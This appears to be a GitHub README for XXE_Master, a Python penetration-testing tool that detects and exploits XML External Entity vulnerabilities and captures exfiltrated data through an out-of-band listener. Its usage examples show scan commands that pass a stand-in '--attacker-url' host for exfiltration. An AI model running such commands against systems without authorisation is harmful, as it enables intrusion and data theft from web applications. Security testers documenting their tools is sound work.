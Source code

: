 # XXE_Master

XXE_Master is a powerful tool designed for detecting, exploiting, and reporting XML External Entity (XXE) vulnerabilities in web applications. This tool is intended for use by ethical hackers, penetration testers, and bug bounty hunters.It supports all operating systems (Linux Windows, and MacOS).

## Table of Contents
- [Features](#features)
- [Requirements](#requirements)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Logging](#logging)
- [Contributing](#contributing)
- [License](#license)

## Features
- **Detection:** Identify XXE vulnerabilities in web applications.
- **Exploitation:** Automatically exploit detected vulnerabilities to demonstrate impact.
- **Reporting:** Generate detailed reports of detected vulnerabilities and their exploits.
- **Out-of-Band (OOB) Listener:** Capture exfiltrated data through an OOB listener.

## Requirements
- Python 3.x
- Required Python packages (listed in `setup.py`)

## Installation

### Installation Steps
1. Clone the repository: `git clone https://github.com/uwimanaMuhiziElie/xxe_master.git`
2. Navigate to the project directory: `cd xxe_master`
3. Install XXE_Master: `pip install -r setup.py`

## Usage
- For usage instructions, run `python main.py --help`

## Examples
- **Scan a target for XXE vulnerabilities**:
  - Demonstration: This command will scan the specified target URL for XXE vulnerabilities and use the specified attacker URL for data exfiltration.
  - Example: `python main.py http://www.exampletest.com --attacker-url http://your-attacker-url.com`

- **Scan with custom delay and OOB listener settings**:
  - Demonstration: This command will scan the target URL with a custom delay of 5 seconds between outputs and will listen on port 9000 for out-of-band data.
  - Example: `python main.py http://www.exampletest.com --attacker-url http://your-attacker-url.com --delay 5 --listen-port 9000`

## Troubleshooting
- If you encounter any issues, please [open an issue](https://github.com/uwimanaMuhizieElie/xxe_master/issues) on GitHub.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author
El1E-l33t | Contact: [muhizielie01@gmail.com](mailto:muhizielie01@gmail.com) | Red Teamer, Penetration tester, and bug bounty hunter with a passion for security research.
